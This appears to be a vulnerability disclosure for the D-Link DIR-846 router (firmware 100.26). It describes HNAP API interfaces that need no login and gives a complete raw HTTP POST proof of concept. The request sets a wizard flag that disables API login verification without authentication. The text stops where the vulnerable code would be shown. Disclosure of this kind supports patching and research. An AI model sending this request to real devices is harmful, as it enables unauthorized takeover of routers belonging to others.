


# D-Link DIR-846(w) Unauthenticated users can turn off API interface login verification#

**vender** ：D-Link

**Firmware version**:100.26

**Exploit Author**: bigbear@galaxylab.org

**Vendor Homepage**: http://www.dlink.com.cn/

**Hardware Link**:http://support.dlink.com.cn/ProductInfo.aspx?m=DIR-846

## Vul detail ##
1. We Audit the source code of the file /squashfs-root/www/HNAP1/control/GetMultipleHNAPs.php,find some interfaces auch as "Login","Logout","SetWizardConfig","GetJumpConfig","SetWizardValue" hava No login verification required.

1. After completing the router initialization configuration，the value "wizard" in the file  /etc/config/my_system is 0. We can set the value "wizard" to 1 by a unauthorization request.Then the API interface login verification is tun off.
1. POC:
```
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:49.0) Gecko/20100101 Firefox/49.0
Accept: application/json
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Content-Type: application/json
SOAPACTION: "http://purenetworks.com/HNAP1/SetPasswdSettings"
HNAP_AUTH: D34C44D78E0DA072AE4E94B67361E182 1534384217127
Referer: http://192.168.0.1/account.html
Content-Length: 36
Cookie: 
DNT: 1
X-Forwarded-For: 8.8.8.8
Connection: close

{"SetWizardValue":{"Wizard_XD":"1"}}
```
1. The vulnerable code is in file /squashfs-root/www/HNAP1/control/SetWizardValue.php：

